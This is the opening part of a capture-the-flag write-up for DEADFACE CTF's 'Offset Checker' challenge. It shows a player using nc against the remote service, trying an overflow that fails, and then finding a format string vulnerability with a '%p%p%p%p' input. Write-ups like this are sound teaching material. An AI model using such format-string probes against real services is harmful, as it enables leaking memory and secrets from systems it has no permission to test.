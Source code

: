 # Offset Checker

### Or Leaking a Binary Through a Format String

The description for this challenge is as follows:

*DEADFACE is running a service to allow their members to check the offset to EIP when exploiting a buffer overflow. There is also a secret key somewhere in memory.*

*Retrieve the secret from memory from the remote service, running on: offsetcheck.deadface.io:31337*

*The flag will be in format: flag{.*}.*

This was worth 300 points in the CTF, and it had a total of 10 solves, which was low for this CTF. Basically, it is a black box challenge, so it requires some creativity to find the vulnerability and get the flag. I ended up leaking the whole code section out through a format string vulnerability I found and finding the flag in there, but there could be a better way.

## Gathering Information:

Since this is a black-box challenge, our only option is to try inputs against the remote service and see what works. The basic functionality of the service looks like this:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ nc offsetcheck.deadface.io 31337
Please enter the string (max 200 char) sent to the buffer:
aaaaaaaaaaa
Please enter what showed up in EIP:
aa
Searching buffer:
aaaaaaaaaa...
Substring found at position 0
Please enter the string (max 200 char) sent to the buffer:
```
I generated a string of 250 a's and tried feeding that in, but it looks like input is being received without causing an overflow, and my extra input is simply being received by additional reads or similar.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ nc offsetcheck.deadface.io 31337
Please enter the string (max 200 char) sent to the buffer:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Please enter what showed up in EIP:
Searching buffer:
aaaaaaaaaa...
Substring found at position 0
Please enter the string (max 200 char) sent to the buffer:
Please enter what showed up in EIP:
```
This pretty much just leaves a format string vulnerability for things I could be reasonably expected to find in this scenario; fortunately, it worked.
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/deadfaceCTF22$ nc offsetcheck.deadface.io 31337
Please enter the string (max 200 char) sent to the buffer:
%p%p%p%p
Please enter what showed up in EIP:
%p
Searching buffer:
0x5(nil)0x...
Substring not found
Please enter the string (max 200 char) sent to the buffer:
```